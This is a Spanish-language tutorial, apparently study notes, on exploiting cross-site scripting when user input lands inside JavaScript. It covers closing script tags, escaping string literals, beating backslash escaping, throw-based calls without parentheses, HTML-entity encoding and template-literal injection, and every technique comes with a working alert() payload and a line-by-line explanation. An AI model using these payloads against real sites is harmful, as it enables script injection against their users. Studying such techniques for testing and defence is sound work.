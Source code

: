 # XSS en JavaScript

Cuando el contexto de una vulnerabilidad XSS se encuentra en algún bloque de JavaScript dentro de la respuesta HTML, pueden surgir diversas situaciones que requieren diferentes técnicas de explotación.

## Terminar el script existente

En el caso más simple, es posible cerrar la etiqueta `<script>` que contiene el JavaScript y luego introducir etiquetas HTML que disparen la ejecución de código JavaScript. Por ejemplo:

```html
<script>
  var input = 'controllable data here';
</script>
```

Payload de ejemplo:

```html
</script><img src=1 onerror=alert(document.domain)>
```

## 🪓 Paso a paso: qué hace este payload

### `</script>`:
- Cierra de forma anticipada la etiqueta `<script>` actual.
- Esto rompe el bloque de JavaScript donde estaba la variable `input`.

### `<img src=1 onerror=alert(document.domain)>`:
- Inyecta un elemento HTML (una imagen).
- Le agrega el atributo `onerror`, que es un *event handler*.
- Cuando el navegador no puede cargar la imagen (porque `src=1` no es válido), se dispara el evento `onerror`, que ejecuta `alert(document.domain)`.

---

## ⚙️ ¿Por qué funciona si "rompe" el script anterior?

Porque los navegadores:

1. Primero parsean el **HTML**, y cuando encuentran etiquetas `<script>`, almacenan el código JavaScript.
2. Cuando vos "rompés" la etiqueta `</script>`, el navegador **cierra el script actual** y sigue procesando HTML.
3. Entonces el navegador simplemente interpreta tu `<img>` como parte del HTML, y ejecuta su evento `onerror`.

> Aunque la línea JS `var input = '` queda rota, eso **no bloquea** que se siga procesando lo demás.  
> No todo el archivo HTML se invalida.


## Salir de una cadena de JavaScript

Cuando el contexto está dentro de una cadena JavaScript entre comillas, se puede salir de ella y ejecutar código arbitrario. Es fundamental mantener el resto del código sintácticamente válido.

Ejemplos de payloads:

```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

Supongamos que hay un código como el siguiente:
```html
<script>
  var input = 'aquí va tu entrada';
</script>
```
Y el servidor incluye tu input dentro de las comillas de esa variable. Si vos inyectás algo como:
```javascript
';alert(document.domain)//
```
Entonces el código se verá así:
```javascript
var input = '';alert(document.domain)//';
```
Esto cierra la cadena original, inyecta el código malicioso y comenta el resto del código para que no genere errores de sintaxis.
### Escapando barras invertidas

Algunas aplicaciones, para evitar `XSS`, intentan proteger las comillas que delimitan la cadena de JavaScript agregando una barra invertida `\` delante. 

Entrada:
```javascript
';alert(document.domain)//
```
Escapada por la app:
```javascript
\';alert(document.domain)//
```
Esto sucede ya que el conjunto de caracteres `\'` se interpreta como una comilla literal, no como el fin de una cadena.

Si los desarrolladores cometieron el error de escapar la comilla pero no la barra invertida `\`, permite al atacante anular la barra invertida agregando otra barra invertida propia.

Ejemplo de payload:
```html
\';alert(document.domain)//
```
Esto quedaría así:
```html
\\';alert(document.domain)//
```
Aquí la primera barra invertida significa que la segunda se interpreta literalmente, y no como un caracter especial. Esto significa que la comilla se interpreta ahora como un terminador de cadena, por lo que el ataque tiene éxito.

## Uso de `throw` para evitar paréntesis

En situaciones donde están filtrados ciertos caracteres como `(` y `)`, se puede usar `throw` con un manejador de errores global:

```javascript
onerror=alert;throw 1
```

Esto llama a `alert(1)` sin necesidad de paréntesis.

## 🔎 ¿Qué hace ese código?

```js
onerror = alert;
throw 1;
```
### 👉 Línea por línea

#### `onerror = alert;`  ---> Asigna la función `alert` al manejador global `onerror`. Cuando ocurra un error, se ejecutará `alert`.

#### `throw 1;`   ---> Lanza una excepción con el valor `1`, lo que dispara el evento `onerror`.

### 🧠 ¿Qué pasa al final?
Como `onerror` apunta a `alert`, el navegador termina ejecutando `alert(1)`. El valor lanzado se usa como argumento, aunque no hayas escrito `alert(1)` directamente.

---


## Haciendo uso de la codificación HTML

Si el contexto está en un atributo HTML como `onclick`, y la app filtra caracteres como `'`, se puede usar entidades HTML:

```html
<a href="#" onclick="... var input='controllable data here'; ...">
```

Payload codificado:
```html
&apos;-alert(document.domain)-&apos;
```

El navegador decodifica `&apos;` como comillas simples, permitiendo cerrar la cadena e inyectar código.

## XSS en literales de plantilla de JavaScript

Los literales de plantilla se definen con comillas invertidas `` ` `` y permiten interpolación de variables:

```javascript
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
```

Si el contexto está dentro de un literal de plantilla, se puede usar:

```javascript
${alert(document.domain)}
```

Esto ejecuta código sin necesidad de romper la plantilla.

## XSS mediante inyección de plantilla del lado del cliente

Frameworks como AngularJS permiten plantillas dinámicas en el cliente. Si la app inyecta datos del usuario sin sanearlos, se pueden inyectar expresiones de plantilla maliciosas para ejecutar JavaScript.

---

Este documento resume técnicas para explotar XSS en contextos de JavaScript, incluyendo scripts embebidos, literales de cadena y plantilla, y atributos HTML. Estas técnicas son clave para evadir filtros y lograr la ejecución de código en aplicaciones vulnerables.


